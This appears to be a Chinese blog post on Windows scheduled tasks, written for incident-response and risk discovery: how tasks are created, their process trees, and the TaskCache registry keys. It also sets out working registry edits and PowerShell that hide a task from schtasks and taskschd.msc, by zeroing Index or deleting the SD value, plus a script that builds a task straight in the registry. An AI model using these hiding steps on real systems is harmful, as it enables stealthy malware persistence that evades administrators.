

恶意软件或攻击者通常使用计划任务作为他们的持久化机制。

从风险发现的角度考虑，理解计划任务的运行和创建方式以及和计划任务相关联的进程是有必要的。

并且，本文还对一种未公开的计划任务隐藏手法进行了猜测与探究。

<!--more-->

现在，让我们开始了解计划任务的一切。

## 关于计划任务的描述

MSDN 里对计划任务的细节信息描述的很详细了，包括使用的 API 或工作机制。所以不再重复阐述，只引用一些必要的东西：

> The Task Scheduler service allows you to perform automated tasks on a chosen computer. With this service, you can schedule any program to run at a convenient time for you or when a specific event occurs. The Task Scheduler monitors the time or event criteria that you choose and then executes the task when those criteria are met. — [MSDN](https://docs.microsoft.com/en-us/windows/win32/taskschd/about-the-task-scheduler)

计划任务调度器会根据任务的定义在指定的时间触发任务，他包含以下组件：


- **Triggers**：任务触发的条件
- **Actions**：任务运行的时候执行的动作
- **Principals**：指定运行任务的用户或用户组信息
- **Settings**：指定影响任务行为的其他设置
- **Registration Information**：包含任务创建时间、创建人等信息
- **Data**：执行任务时使用的额外的信息

更多信息可以在 [MSDN](https://docs.microsoft.com/en-us/windows/win32/taskschd/task-scheduler-start-page) 找到。

下面学习一下任务创建的方式。

## 通过命令行创建任务

### At.exe

使用 `at` 命令创建计划任务的方式：

```cmd
at 11:11 /every:Sunday,Monday,Tuesday "malware.exe"
```

以上命令将创建一个计划任务，在每周日、周一、周二的 11:11 执行 malware.exe。

也可以通过 `\\ComputerName` 在指定计算机上运行，更多的参数信息参考 [MSDN](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-xp/bb490866%28v=technet.10%29)。

下面这些信息可能会帮助排查 `at.exe` 生成的计划任务：

- 路径： %SystemRoot%\System32\at.exe
- 权限： 必须是管理员组用户
- 排查： 检查创建任务时的命令行内容，看看可执行程序或者命令是否是恶意的。
- 其他：
  - at 创建的任务文件位置：%SystemRoot%\Tasks，关注 At[x].job 文件，x 代表任务的 ID
  - 和任务相关的 XML 文件位置：%SystemRoot%\System32\Tasks
  - 如果任务日志是启用的，可以排查 “应用程序和服务日志/Microsoft/Windows/TaskScheduler/Operational” 事件日志。

### schtasks.exe

`at.exe` 在 windows8 开始就弃用了，之后的系统都是使用 `schtasks.exe` 创建计划任务，该命令参数信息如下：

```cmd
SCHTASKS /Create [/S system [/U username [/P [password]]]]
    [/RU username [/RP password]] /SC schedule [/MO modifier] [/D day]
    [/M months] [/I idletime] /TN taskname /TR taskrun [/ST starttime]
    [/RI interval] [ {/ET endtime | /DU duration} [/K] [/XML xmlfile] [/V1]]
    [/SD startdate] [/ED enddate] [/IT | /NP] [/Z] [/F] [/HRESULT] [/?]
```

schtasks 比 at 更加强大，提供了很多自定义任务时需要的参数。

在对计划任务排查时，我们可能更关注的是执行的任务内容，和它相关的参数是 `TR`。

一般情况创建恶意计划任务的大概命令是这样子：

```cmd
"c:\Windows\System32\schtasks.exe" /Create /SC ONCE /TN KglN9I99 /TR "cmd /c \"start /min C:\ProgramData\KglN9I99.bat\"" /ST 20:21
```

这个命令中使用了 `/TN` 指定任务名称为 `KglN9I99`，`/TR` 参数指定运行的恶意命令，`/ST` 指定了运行时间，`/SC` 指定运行周期，还可以通过 `/ED` 参数指定任务终止日期等。

更多关于 `schtasks.exe` 的用法，参考 [MSDN](https://docs.microsoft.com/en-us/windows/win32/taskschd/schtasks)

下面这些信息可能会帮助排查 `svchosts.exe` 生成的计划任务：

- 路径： %SystemRoot%\System32\schtasks.exe
- 权限： 普通用户。如果要显示指定高权用户运行任务，需要该账户的账户名和密码信息。
- 排查：
  - 检查调用 schtasks 的父进程信息，是否有权创建任务
  - 检查 `/TR` 参数的值，可执行文件或命令是否是恶意的
- 其他：
  - 和任务相关的 XML 文件位置：%SystemRoot%\System32\Tasks
  - 如果任务日志是启用的，可以排查 “应用程序和服务日志/Microsoft/Windows/TaskScheduler/Operational” 事件日志。

一旦任务创建，将会自动在目录 `%SystemRoot%\System32\Tasks` 生成一个关于该任务的描述性 XML 文件，包含了所有的任务信息。

需要注意的是，通过 `taskschd.msc` 创建的任务会直接从托管 `Task Scheduler` 服务的 `svchost.exe` 进程派生。

## 其他创建计划任务的方式

### schtasks.exe 及 at.exe 命令创建

通过系统命令是比较普遍的计划任务创建方式。

创建一个默认权限运行的计划任务：

```cmd
schtasks.exe /create /tn test /tr "calc.exe" /sc minute /mo 1 /f
schtasks.exe /run /tn test
schtasks.exe /end /tn test
schtasks.exe /delete /tn test /f

schtasks /create /xml c:\test\1.xml /tn test2
schtasks.exe /run /tn test2
schtasks.exe /end /tn test2
schtasks.exe /delete /tn test2 /f
```

创建一个高权限运行的计划任务：

```cmd
schtasks.exe /create /tn test /tr "cmd.exe" /sc minute /mo 1 /ru "SYSTEM" /rl HIGHEST /f
schtasks.exe /run /tn test
schtasks.exe /end /tn test
schtasks.exe /delete /tn test /f
```

at 创建的任务也是高权限运行的：

```cmd
at 00:00 cmd.exe
at {taskid} /delete /yes
```

at 没有 schtasks 命令强大，比如没办法隔1分钟执行一次，也没办法指定任务执行的用户。

### 图形界面 taskschd.msc 方式创建

Win+R 启动 taskschd.msc：


mmc 程序启动后会直接提权到管理员权限，所以普通用户可以创建高权限的任务：


选中Task Scheduler Library ，右键 -> Create Task...
弹出界面，逐个配置即可:



### 代码方式创建任务

代码最终都是和 `c:\windows\system32\taskschd.dll` 提供的 COM 服务交互：

- GUID: `0F87369F-A4E5-4CFC-BD3E-73E6154572DD`
- 注册表路径: `HKEY_LOCAL_MACHINE\SOFTWARE\Classes\CLSID\{0f87369f-a4e5-4cfc-bd3e-73e6154572dd}`


该 COM 组件不支持 Elevation，无法自动提权。

下面是2种创建计划任务的代码示例：

#### csharp

c# 实现的话，为了方便，引用 [TaskScheduler](https://github.com/dahall/TaskScheduler) 项目进行计划任务的创建：

```csharp
using System;
using System.Security.Principal;
using System.Security.AccessControl;
using Microsoft.Win32.TaskScheduler;
using System.Text.RegularExpressions;

namespace SchtaskHidden
{
    class Program
    {
        static void Main(string[] args)
        {
            //TaskCollection tt = TaskService.Instance.RootFolder.GetTasks(new Regex("test"));
            //foreach(Task ti in tt)
            //{
            //    Console.WriteLine(ti.Name);
            //}
            //System.Environment.Exit(0);
            TaskDefinition td = TaskService.Instance.NewTask();
            td.RegistrationInfo.Description = "do something";
            //td.Principal.RunLevel = TaskRunLevel.Highest;
            //td.Principal.LogonType = TaskLogonType.ServiceAccount;
            //td.Principal.UserId = "SYSTEM";

            TimeTrigger dt = new TimeTrigger();
            dt.StartBoundary = DateTime.Now;
            dt.Repetition.Interval = TimeSpan.FromMinutes(1);

            td.Triggers.Add(dt);
            td.Actions.Add("cmd.exe", "/c \"calc.exe\"", null);
            Task t = TaskService.Instance.RootFolder.RegisterTaskDefinition(path: "testxxx", definition: td, TaskCreation.CreateOrUpdate, null, null, 0);
            Console.WriteLine("success!!");
            //TaskSecurity ts = new TaskSecurity(t);
            //ts.RemoveAccessRuleAll(new TaskAccessRule(new SecurityIdentifier(WellKnownSidType.ServiceSid, null), TaskRights.Read | TaskRights.Write | TaskRights.ReadAttributes, AccessControlType.Allow));

            //t.SetAccessControl(ts);

            //Console.WriteLine("success!!");
        }
    }
}
```

#### powershell

```powershell
$TaskDescr = "test task"
$Author = "reinject"
$TaskName = "test"
$TaskStartTime = [datetime]::Now
$TaskCommand = "cmd.exe"
$TaskArg = "/c calc.exe"
$UserAcct = "$env:userdomain\$env:username"
# $UserAcct = "SYSTEM"

$ScheduleObject = new-object -ComObject("Schedule.Service")
# connect to the local machine. 
$ScheduleObject.Connect("localhost")
$rootFolder = $ScheduleObject.GetFolder("\")

$TaskDefinition = $ScheduleObject.NewTask(0) 
$TaskDefinition.RegistrationInfo.Description = "$TaskDescr"
$TaskDefinition.RegistrationInfo.Author = "$Author"
#$TaskDefinition.Principal.RunLevel = 1
$TaskDefinition.Settings.Enabled = $true
$TaskDefinition.Settings.AllowDemandStart = $true
$TaskDefinition.Settings.DisallowStartIfOnBatteries = $false
$TaskDefinition.Settings.ExecutionTimeLimit = "PT0S"  # See Note Below

$triggers = $TaskDefinition.Triggers
$trigger = $triggers.Create(1) # Creates a "time-based" trigger, 8: system startup
$trigger.StartBoundary = $TaskStartTime.ToString("yyyy-MM-dd'T'HH:mm:ss")
$trigger.Repetition.Interval = 1
$trigger.Enabled = $true

$Action = $TaskDefinition.Actions.Create(0)
$action.Path = "$TaskCommand"
$action.Arguments = "$TaskArg"

$rootFolder.RegisterTaskDefinition($TaskName,$TaskDefinition,6,$UserAcct,$null,3)
```

powershell 可以不用这么麻烦，有自带的 cmdlet：

```powershell
$taskname = "test"
$cmd = "cmd.exe"
$cmdargs = "/c calc.exe"
$username = "$env:username"
#$username = "SYSTEM"
$taskdescription = "test task"

$action = New-ScheduledTaskAction -Execute $cmd -Argument $cmdargs
$trigger = New-ScheduledTaskTrigger -Once -At (Get-Date) -RepetitionInterval (New-TimeSpan -minutes 1)
$settings = New-ScheduledTaskSettingsSet -ExecutionTimeLimit (New-TimeSpan -Minutes 0) -RestartCount 3 -RestartInterval (New-TimeSpan -Minutes 1)
Register-ScheduledTask -Action $action -Trigger $trigger -TaskName $taskname -Description $taskdescription -Settings $settings -User $username -RunLevel 1 # 1 for highest, 0 for low
```

删除命令：`Unregister-ScheduledTask -TaskName test -Confirm:$false`

## 派生任务进程的父进程（svchost.exe/taskeng.exe/taskhostw.exe）

运行计划任务的相关服务是：`Task Scheduler`。该服务使用 `SVCHOST.exe` 的 `netsvcs` 组进行托管。


通过进程树看到 `svchost.exe` 进程的命令行为：`svchost.exe -k netsvcs -p -s Schedule`，在 Windows 10.1703 以下可能看不到 `-s Schedule` 参数。

### taskeng.exe

在旧系统中计划任务的进程派生顺序是这样子的：svchost.exe -> taskeng.exe -> [SpecialTaskProcess]，例如：


`taskeng.exe` 的进程参数语法如下：

```cmd
taskeng.exe {GUID} [User SID]:[Domain]\[User Name]:[Options]
```

某些情况下，可能只有 `{GUID}` 一个参数，`Options` 参数可能会标识一些其他信息，例如权限信息，如果一个任务运行在高权限模式下，`Options` 的内容会是：

```plain
Interactive:Highest[1]
```

所以在旧的系统中可以查看进程树排查恶意进程，例如找到 `taskeng.exe` 的进程树，它的父进程为 `svchost.exe -k netsvcs`，子进程就是运行中的任务对应的进程，通过排查子进程确定恶意进程。

### svchost.exe -k netsvcs -p

从 Windows 10.1511 版本开始，不再有 `taskeng.exe` 了，新版本系统中找不到该程序，任务进程直接运行在托管 `Task Scheduler` 服务的 `svchost.exe` 进程下：


所以高版本系统中，我们可以排查 `svchost.exe -k netsvcs` 进程的子进程来确定恶意或可疑程序。

### taskhostw.exe

 在上面的图里，可以很明显注意到，`svchost.exe -k netsvcs` 下还有一个名为 `taskhostw.exe` 的进程。

在 Windows 7 上该进程名为：`taskhost.exe`。

在 Windows 8 上该进程名为：`taskhostex.exe`。

该进程的作用同 `dllhost.exe` 和 `svchost.exe` 相似，起到一个 DLL 托管的作用。

通过搜索 `%SystemRoot%\System32\Tasks` 文件夹，我们能找到一些任务对应的动作不是 `Exec`，而是 `ComHandler`。

我们找到一些能起到对比效果的任务 XML，隐藏了一些不必要的字段。

这是我们利用 `schtasks.exe` 命令创建的任务 XML：

```xml
<?xml version="1.0" encoding="UTF-16"?>
<Task version="1.2" xmlns="http://schemas.microsoft.com/windows/2004/02/mit/task">
  <Actions Context="Author">
    <Exec>
      <Command>"C:\Program Files (x86)\IObit\Advanced SystemCare\ASC.exe"</Command>
      <Arguments>/SkipUac</Arguments>
    </Exec>
  </Actions>
</Task>
```

这个是系统 `.NET Framework` 的计划任务 XML 内容，如果安装了 .NET 框架可以在 `%SystemRoot%\System32\Tasks\Microsoft\Windows\.NET Framework` 目录下找到：

```xml
<?xml version="1.0" encoding="UTF-16"?>
<Task version="1.6" xmlns="http://schemas.microsoft.com/windows/2004/02/mit/task">
  <Actions Context="Author">
    <ComHandler>
      <ClassId>{84F0FAE1-C27B-4F6F-807B-28CF6F96287D}</ClassId>
      <Data><![CDATA[/RuntimeWide]]></Data>
    </ComHandler>
  </Actions>
</Task>
```

手动触发 `.NET Framework` 任务，该任务调用 `ngentasklauncher.dll`，通过 ProcExp.exe 监控进程观察到的进程树：


可以注意到 `taskhostw.exe` 的参数 `/RuntimeWide` 和 xml 中 `<Data>` 标签指定的一样。

#### $(Arg0) 参数

在观察 `taskhostw.exe` 进程树的过程中，发现下面的命令行参数：

```cmd
taskhosw.exe Install $(Arg0)
```

这个东西在 [MSDN](https://docs.microsoft.com/en-us/windows/win32/taskschd/task-actions) 中做了介绍：

> Some action properties that are of type BSTR can contain $(Arg0), $(Arg1), …, $(Arg32) variables in their string values. These variables are replaced with the values that are specified in the params parameter of the IRegisteredTask::Run and IRegisteredTask::RunEx methods or are contained within the event trigger for the task.

由此可知，`$(Arg0)` 这些参数是在通过 `IRegisteredTask::Run[Ex]` 接口运行任务时动态指定的。在一些 Windows 默认的任务中常见：

\Microsoft\Windows\Workplace Join\Automatic-Device-Join 任务：

```xml
<?xml version="1.0" encoding="UTF-16"?>
<Task xmlns="http://schemas.microsoft.com/windows/2004/02/mit/task">
  <Actions Context="LocalSystem">
    <Exec>
      <Command>%SystemRoot%\System32\dsregcmd.exe</Command>
      <Arguments>$(Arg0) $(Arg1) $(Arg2)</Arguments>
    </Exec>
  </Actions>
</Task>
```

\Microsoft\Windows\Maps\MapsToastTask 任务：

```xml
<?xml version="1.0" encoding="UTF-16"?>
<Task xmlns="http://schemas.microsoft.com/windows/2004/02/mit/task">
  <Actions Context="Users">
    <ComHandler>
      <ClassId>{9885AEF2-BD9F-41E0-B15E-B3141395E803}</ClassId>
      <Data><![CDATA[$(Arg0);$(Arg1);$(Arg2);$(Arg3);$(Arg4);$(Arg5);$(Arg6);$(Arg7)]]></Data>
    </ComHandler>
  </Actions>
</Task>
```

查阅 [MSDN](https://docs.microsoft.com/en-us/windows/win32/taskschd/task-scheduler-start-page) 可知，该参数可以通过以下 API 进行传递：

- [ITaskHandler::Start](https://docs.microsoft.com/en-us/windows/win32/api/taskschd/nf-taskschd-itaskhandler-start)
- [IRegisteredTask::Run](https://docs.microsoft.com/en-us/windows/win32/api/taskschd/nf-taskschd-iregisteredtask-run)
- [IRegisteredTask::RunEx](https://docs.microsoft.com/en-us/windows/win32/api/taskschd/nf-taskschd-iregisteredtask-runex)
- [IExecAction::put_Arguments](https://docs.microsoft.com/en-us/windows/win32/api/taskschd/nf-taskschd-iexecaction-put_arguments)
- [ITask::SetParameters](https://docs.microsoft.com/en-us/windows/win32/api/mstask/nf-mstask-itask-setparameters)

## 计划任务相关注册表项

在一次应急排查中，只能从计划任务日志中看到恶意计划任务在周期性的执行，但却无法通过 `taskschd.msc` 或 `schtasks /query` 查询到恶意任务，并且通过排查 `%SystemRoot%\System32\Tasks` 目录后仍无法找到它。

在测试中发现，创建计划任务 `test` 后，无论是手动修改任务 xml 文件，还是删除任务 xml 文件，都无法影响该任务的运行。于是对注册表项进行监控，发现在创建任务后 `HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Schedule` 出现变动。

下面是从 [winreg-kb](https://github.com/libyal/winreg-kb/blob/master/documentation/Task%20Scheduler%20Keys.asciidoc) 项目中得到该注册表对应的信息：

在 XP 时，计划任务注册表路径为 `HKEY_LOCAL_MACHINE\Software\Microsoft\SchedulingAgent`

Win7 以后发生变化，变成 `HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Schedule`，子项有：

|名称|描述|
|:----|:----|
|Aliases|存储AtServiceAccount，默认NT AUTHORITY\System|
|CompatibilityAdapter||
|Configuration||
|CredWom||
|Handlers||
|Handshake||
|TaskCache|存储任务项信息|

任务项信息除了在磁盘中的 `%SystemRoot%\System32\Tasks` 下之外，还在 `HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache` 中存在：

`Schedule\TaskCache`:

|名称|描述|
|:----|:----|
|Boot||
|Logon||
|Plain||
|Plain||
|Tree||

`TaskCache\Tree` 子项以任务名称命名，每个任务下的 Value 结构如下：

|名称|类型|描述|
|:----|:----|:----|
|Id|REG_SZ|{GUID}，任务对应的guid编号|
|Index|REG_DWORD|一般任务为3，其他值未知|
|SD|REG_BINARY|该任务项的安全描述信息，二进制值，结构未知|

每个 `Schedule\TaskCache\Tasks\%GUID%` 对应一个任务，有这些 Value :

|名称|类型|描述|
|:----|:----|:----|
|Actions|REG_BINARY|二进制值，动作信息，中间包含 UNICODE 形式 COMMAND 信息|
|Date|REG_SZ|任务创建日期?|
|Description|REG_SZ|任务描述|
|DynamicInfo|REG_BINARY|Win7 以下 28 位，Win8 以上 32 位|
|Hash|REG_BINARY|SHA-256 or CRC32, 疑似对应 xml 文件 Hash|
|Path|REG_SZ|在 TaskCache\Tree 中的任务路径|
|Schema|REG_DWORD||
|Triggers|REG_BINARY|二进制，触发器信息|
|URI|REG_SZ|任务路径|

如果是 at 命令创建的计划任务，对应的注册表位置在 `Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree\At1`。

## 计划任务的安全描述符（SD）

计划任务的 SD 配置在注册表中的位置：`HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree\{TaskName}\SD`，为人类不可读的二进制格式：


在一篇关于隐藏 Windows 服务的文章中，了解到通过修改对象的安全描述信息可以达到隐藏的目的。触类旁通一下，计划任务的隐藏应该也是可以通过改变安全描述信息（SD）实现。

Windows 自带的工具 schtasks.exe 并不支持 SD 的设置，需要通过 API 实现。通过查阅 MSDN 并未发现对于 TASK 的 SDDL 该怎么写，相关 API 列表：

- [IRegistrationInfo::put_SecurityDescriptor](https://docs.microsoft.com/en-us/windows/win32/api/taskschd/nf-taskschd-iregistrationinfo-put_securitydescriptor)
- [ITaskFolder::CreateFolder](https://docs.microsoft.com/en-us/windows/win32/api/taskschd/nf-taskschd-itaskfolder-createfolder)
- [ITaskFolder::CreateFolder](https://docs.microsoft.com/en-us/windows/win32/api/taskschd/nf-taskschd-itaskfolder-registertask)
- [ITaskFolder::RegisterTaskDefinition](https://docs.microsoft.com/en-us/windows/win32/api/taskschd/nf-taskschd-itaskfolder-registertaskdefinition)
- [ITaskFolder::SetSecurityDescriptor](https://docs.microsoft.com/en-us/windows/win32/api/taskschd/nf-taskschd-itaskfolder-setsecuritydescriptor)
- [IRegisteredTask::SetSecurityDescriptor](https://docs.microsoft.com/en-us/windows/win32/api/taskschd/nf-taskschd-iregisteredtask-setsecuritydescriptor)

通过这些 API 可以实现设置 TASK 的 SD 信息。我尝试使用项目 [TaskScheduler](https://github.com/dahall/TaskScheduler) 进行任务的创建，它用起来会更方便一些：

```csharp
using System;
using System.Security.Principal;
using System.Security.AccessControl;
using Microsoft.Win32.TaskScheduler;

namespace SchTaskOpt
{
    class Program
    {
        static void Main(string[] args)
        {
            TaskDefinition td = TaskService.Instance.NewTask();
            td.RegistrationInfo.Description = "do something";
            td.Principal.RunLevel = TaskRunLevel.Highest;
            td.Principal.LogonType = TaskLogonType.ServiceAccount;
            td.Principal.UserId = "SYSTEM";
            td.RegistrationInfo.SecurityDescriptorSddlForm = @"D:P(D;;DCLCWPDTSD;;;IU)(A;;CCLCSWLOCRRC;;;IU)(A;;CCLCSWLOCRRC;;;SU)(A;;CCLCSWRPWPDTLOCRRC;;;SY)";

            DailyTrigger dt = new DailyTrigger();
            dt.StartBoundary = DateTime.Now;
            dt.DaysInterval = 1;
            dt.Repetition.Interval = TimeSpan.FromMinutes(1);

            //td.Triggers.Add(dt);
            td.Actions.Add("notepad", null, null);
            Task t =  TaskService.Instance.RootFolder.RegisterTaskDefinition(path:"test2", definition:td, TaskCreation.CreateOrUpdate, null, null, TaskLogonType.ServiceAccount);
            Console.WriteLine("success!!");
            //TaskSecurity ts = new TaskSecurity(t);
            //ts.AddAccessRule(new TaskAccessRule(new SecurityIdentifier(WellKnownSidType.AuthenticatedUserSid, null), TaskRights.Read | TaskRights.Write | TaskRights.ReadAttributes, AccessControlType.Deny));

            //t.SetAccessControl(ts);

            Console.WriteLine("success!!");
        }
    }
}
```

但不幸的是报错了，无论是通过管理员运行还是 SYSTEM，都无法另其正常运作：

```powershell
PS C:\source\SchTaskOpt\bin\> .\SchTaskOpt.exe

未经处理的异常:  System.Runtime.InteropServices.COMException: 异常来自 HRESULT:0xD0000061
   在 Microsoft.Win32.TaskScheduler.V2Interop.ITaskFolder.RegisterTaskDefinition(String Path, ITaskDefinition pDefinition, Int32 flags, Object UserId, Object password, TaskLogonType LogonType, Object sddl)
   在 Microsoft.Win32.TaskScheduler.TaskFolder.RegisterTaskDefinition(String path, TaskDefinition definition, TaskCreation createType, String userId, String password, TaskLogonType logonType, String sddl)
```

这个疑问先保留一下吧，需要清楚知道注册表中每个任务自动生成的 SD 格式才有头绪，这份 [类型结构清点](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dtyp/) 也许会排上用场。

## 计划任务隐藏手法探究

臆想一下，如果知道注册表里的所有结构形式及其意义，就可以手动通过添加注册表的方式进行创建计划任务，实际上我并没有尝试去搞清楚所有字段值的含义，所以暂时只能利用注册表做到计划任务的隐藏和删除。

我对计划任务隐藏的手法进行深入探究，经过不断测试，发现两种隐藏任务的方式：

### 非完全隐藏

如果想要隐藏一个计划任务，可以通过修改 `Schedule\TaskCache\Tree` 中对应任务的 `Index` 值，一般情况下默认是 3，改成 0 后可实现隐藏，步骤如下：

- 启动 SYSTEM 权限 cmd：`psexec64  -i -s cmd.exe`
- 执行 regedit 以 SYSTEM 权限启动注册表编辑器
- 修改 `HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree` 下对应任务的 Index 值为 `0`
- 删除 `%SystemRoot%\System32\Tasks` 下任务对应的 XML 文件

优点：

- 利用 `taskschd.msc`、`schtasks /query` 甚至系统 API 查询出的所有任务中，都看不到该任务

缺点：

- 并非完全隐藏，如果知道该任务的名字，可以通过 `schtasks /query /tn {TaskName}` 查到
- 无论是低权的任务还是高权，都需要 SYSTEM 权限（在 Win10 测试，低版本好像没这个要求，待测试）

#### 测试用例

```powershell
PS C:\> schtasks.exe /create /tn test /tr "calc.exe" /sc minute /mo 1 /ru "administrator"
成功: 成功创建计划任务 "test"。
PS C:\> schtasks.exe /query /tn test

文件夹: \
任务名                                   下次运行时间           模式
======================================== ====================== ===============
test                                     2021/1/11 14:54:00     就绪
PS C:\> schtasks.exe /query|findstr test
test                                     2021/1/11 14:55:00     ??
PS C:\> Set-ItemProperty -Path "HKLM:\Software\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree\test" -Name "Index" -Value 0
PS C:\> schtasks.exe /query|findstr test
PS C:\> schtasks.exe /delete /tn test /f
成功: 计划的任务 "test" 被成功删除。
PS C:\>
```

#### 原理探究

`Index` 的含义不可知，这个暂时不做探讨。

### 完全隐藏

按道理，是可以通过配置任务 SD 实现，但是我并没有尝试成功。不过在一次测试过程中，偶然地直接删除了注册表中的 SD 项，发现无论什么方式都查不到任务信息，达到完全隐藏的目的：

- 启动 SYSTEM 权限 cmd：`psexec64  -i -s cmd.exe`
- 执行 regedit 以 SYSTEM 权限启动注册表编辑器
- 删除 `HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree\{TaskName}\SD`
- 删除 `%SystemRoot%\System32\Tasks` 下任务对应的 XML 文件

优点：

- 无论何种方式（除了注册表），都查不到该任务，较为彻底

缺点：

- 无论是低权的任务还是高权，都需要 SYSTEM 权限（在 Win10 测试，低版本好像没这个要求，待测试）

#### 测试用例

下面是测试用的 powershell 代码（不通用，里面涉及的二进制内容需要先dump一个正常创建的任务）：

```powershell
$taskname = "test"
$uuid = "{3EC79FBB-0533-4356-89B3-8CE2003F1CD8}"
$cmd = "calc.exe"

New-Item -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tasks\" -Name $uuid
New-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tasks\$uuid\" -Name "Path" -Value "\$taskname" -Type String -Force
New-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tasks\$uuid\" -Name "URI" -Value "\$taskname" -Type String -Force
New-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tasks\$uuid\" -Name "Schema" -Value 0x00010002 -Type DWORD -Force

$triggerstring = "FwAAAAAAAAABBwEAAAAIAAAI/NDz5dYBAAcBAAAACAD//////////zghQUNISEhI38PL80hISEgOAAAASEhISEEAdQB0AGgAbwByAAAASEgAAAAASEhISABISEhISEhIAEhISEhISEgBAAAASEhISBwAAABISEhIAQUAAAAAAAUVAAAAEXy5KUkCH0AHyc8n6AMAAEhISEgsAAAASEhISFQARQBDAEgATABJAFUAMQAwADUANwBcAHQAZQBjAGgAbABpAHUAAAAAAAAASEhISCwAAABISEhIWAIAABAOAACA9AMA/////wcAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABISEhI3d0AAAAAAAABBwEAAAAIAAAI/NDz5dYBAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA8AAAAAAAAAP////8AAAAAAAAAAAAAAAAAAcVLAQAAAAAAAAB2oQAAAAAAAEhISEg="
$triggerbytes = [System.Convert]::FromBase64String($triggerstring)
$actionbytes = [byte[]](0x03,0x00,0x0c,0x00,0x00,0x00,0x41,0x00,0x75,0x00,0x74,0x00,0x68,0x00,0x6f,0x00,0x72,0x00,0x66,0x66,0x00,0x00,0x00,0x00,0x10,0x00,0x00,0x00) + [System.Text.Encoding]::Unicode.GetBytes($cmd) + [byte[]](0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00)

New-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tasks\$uuid\" -Name "Triggers" -Value $triggerbytes -Type binary -Force
New-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tasks\$uuid\" -Name "Actions" -Value $actionbytes -Type binary -Force

New-Item -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree" -Name $taskname -Force
New-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree\$taskname" -Name "Id" -Value "{3EC79FBB-0533-4356-89B3-8CE2003F1CD8}" -Type string -Force
New-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree\$taskname" -Name "Index" -Value 0x3 -Type DWORD -Force

#Remove-Item -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree\$taskname" -Force
#Remove-Item -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tasks\$uuid" -Force
```

更通用一些的测试用例：

```powershell
PS C:\> schtasks.exe /create /tn test /tr "calc.exe" /sc minute /mo 1 /ru "administrator"
成功: 成功创建计划任务 "test"。
PS C:\> schtasks.exe /query /tn test

文件夹: \
任务名                                   下次运行时间           模式
======================================== ====================== ===============
test                                     2021/1/11 14:56:00     就绪
PS C:\> schtasks.exe /query|findstr test
test                                     2021/1/11 14:56:00     ??
PS C:\> Remove-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree\test" -Name "SD"
PS C:\> schtasks.exe /query /tn test
错误: 系统找不到指定的文件。
PS C:\> schtasks.exe /query|findstr test
PS C:\>
```

这种方式创建的计划任务，删除要相对麻烦一些：

```powershell
$taskname = "test"
$uuid = (Get-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree\$taskname" -Name "Id").Id
Remove-Item -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tasks\$uuid"
Remove-Item -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree\$taskname"

sc.exe stop schedule
sc.exe start schedule
```

#### 原理探究

经过进程监控，发现在计划任务信息查询过程中的流程如下（3、4 步是猜测）：

1. 查询 `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree\SD`，查的到继续，查不到则终止查询
2. 遍历查询 `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree\{TaskName}` 中的 `Id`、`Index`、`SD` 等值
3. 查询到的 `SD` 值，会对之后是否有权限查看该任务信息有影响，查不查的到和这个值息息相关
4. 根据 `SD` 值，进行权限检查
   - 如果权限通过，格式化输出 ``HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tasks\{TaskId}` 中的任务详细信息
   - 权限不通过，则进行下一个任务的查询

正常任务查询：


